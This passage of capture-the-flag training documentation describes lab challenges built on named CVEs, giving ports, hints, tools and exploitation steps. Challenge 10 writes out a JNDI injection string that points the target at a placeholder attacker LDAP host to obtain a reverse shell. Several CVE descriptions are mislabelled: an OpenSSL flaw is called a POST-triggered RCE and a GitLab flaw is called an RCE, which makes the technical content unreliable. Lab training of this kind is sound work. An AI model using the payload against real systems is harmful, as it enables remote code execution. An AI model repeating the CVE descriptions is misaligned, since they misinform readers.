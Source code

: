 By following this structured approach, students can gain hands-on experience in exploiting real-world vulnerabilities and strengthen their cybersecurity knowledge.

**CTF Challenge Documentation for Remaining Vulnerabilities**

---

### **Challenge 9: CVE-2022-1292 (OpenSSL RCE)**
**Vulnerability Type:** Injection

**Service Port:** 7070

**Description:** An OpenSSL configuration error leading to remote command execution.

**Hint:**
- Check for misconfigured SSL modules.

**Tools:**
- `openssl`
- `curl`

**Exploitation Steps:**
1. Craft a specially formatted SSL payload.
2. Send the payload via a POST request.

**Expected Outcome:**
Execute a remote command and observe the output.

---

### **Challenge 10: CVE-2022-23307 (Log4Shell Variant)**
**Vulnerability Type:** Injection

**Service Port:** 10001

**Description:** An RCE vulnerability due to a misconfigured Log4j logging mechanism.

**Hint:**
- Look for log injection points.

**Tools:**
- `ldap` server (`JNDIExploit`)
- Burp Suite

**Exploitation Steps:**
1. Host a malicious payload using `JNDIExploit`.
2. Inject `${jndi:ldap://<attacker_ip>/exploit}` into the vulnerable parameter.

**Expected Outcome:**
Receive a reverse shell or server interaction.

---

### **Challenge 11: CVE-2022-1162 (GitLab RCE)**
**Vulnerability Type:** Insecure Design

**Service Port:** 8585
